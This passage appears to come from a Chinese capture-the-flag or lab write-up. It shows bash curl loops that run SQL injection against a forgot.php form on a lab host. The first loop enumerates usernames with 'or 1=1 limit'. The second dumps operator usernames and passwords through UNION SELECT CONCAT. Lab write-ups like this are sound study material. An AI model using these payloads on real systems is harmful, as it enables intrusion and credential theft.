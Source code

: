 [![](assets/1703640271-e0929eefaa6a1e67fe6738801c8a57eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155430-004f9590-a3c4-1.png)

使用limit进行判断字段。

[![](assets/1703640271-74be0d7b74f143dad888c6cb3c8d6ed9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155436-03ba15e8-a3c4-1.png)

### 1.脚本测试

使用脚本枚举出了可用的用户名。

```plain
for i in{1..1000};do curl -s http://10.10.10.31/cmsdata/forgot.php --data-urlencode"email=a@b.c' or 1=1 limit ${i},1;-- -" | grep'<h2>' | awk'{print $5}' | grep-v"^with"||break;done
for i in $(seq 0 300); do
        payload="email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(__username_, ':', __password_, '@b.com') FROM supercms.operators LIMIT 1 OFFSET $i-- -"
        curl -s -d "$payload" http://10.10.10.31/cmsdata/forgot.php | grep -o '[^ ]*@b.com'
        done
```
